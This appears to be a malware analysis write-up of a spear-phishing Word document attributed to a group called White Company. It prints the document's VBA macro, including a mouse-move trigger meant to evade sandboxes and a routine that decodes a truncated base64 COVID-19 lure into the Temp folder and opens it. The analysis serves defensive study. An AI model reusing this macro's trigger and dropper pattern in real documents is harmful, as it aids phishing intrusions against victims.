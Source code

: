 ## White Company, copycat company of Patchwork (or just aka)
## Table of Contents
* [Malware analysis](#Malware-analysis)
* [Cyber kill chain](#Cyber-kill-chain)
* [Indicators Of Compromise (IOC)](#IOC)
* [References MITRE ATT&CK Matrix](#Ref-MITRE-ATTACK)
* [Yara rules](#Yara)
* [Links](#Links)
  + [Original Tweet](#tweet)
  + [Link Anyrun](#Links-Anyrun)
  + [References](#References)

<h2>Malware analysis<a name="Malware-analysis"></a></h2>
<h4>The initial vector comes from a maldoc probably send by Spear-phishing campaign.This content a macro witch use the Image1_MouseMove method for performing the actions when only the victim goes over the cover picture, this limits the execution of the payload on the sandbox.This executes two methods, one for the drops and launch the lure to the victim and for executing the implant.</h4>

```vb
Private Sub Image1_MouseMove(ByVal Button As Integer, ByVal Shift As Integer, ByVal X As Single, ByVal Y As Single)
    LaunchDoc
    DropPayloads
End Sub
```

<h4>The first method concatenate some functions for getting the encoded lure document. After this, this decodes the encoded data and pushes it on the Temp folder. Finally, initialize a Word application for open the lure to the victim.</h4>

```vb

Public Function LaunchDoc() As Variant
	Set wshell = CreateObject("WScript.Shell").Environment("PROCESS")
	Dim PathDoc
	Temp_Folder = wshell("TEMP")
	Set ScriptingObj = CreateObject("Scripting.FileSystemObject")
	PathDoc = Temp_Folder & "\Covid19_Guidelines.docx"
	DataDoc = DataDoc & doc1
	DataDoc = DataDoc & doc2
	Set ObjScr = ScriptingObj.createTextFile(PathDoc, True)
	ObjScr.Write Decode(DataDoc)
	ObjScr.Close
	Set WordAPP = GetObject(, "Word.Application")
	WordAPP.Visible = True
	'WordAPP.Documents.Close (wdDoNotSaveChanges)
	WordAPP.Documents.Open PathDoc
	Set WordAPP = Nothing
End Function
Function doc1()
	DataDoc = DataDoc & "UEsDBBQABgAIAAAAIQD5QALuywEAAOAIAAAT"
    [...]
	DataDoc = DataDoc & "AFRKUYq8nY0p051JcsFdk"
	doc1 = DataDoc
End Function
Function doc2()
	DataDoc = DataDoc & "Y6UR69PK2ta"
    [...]
	DataDoc = DataDoc & "AAAAABkAGQBuBgAAKLwAAAAA"
	doc2 = DataDoc
End Function
```
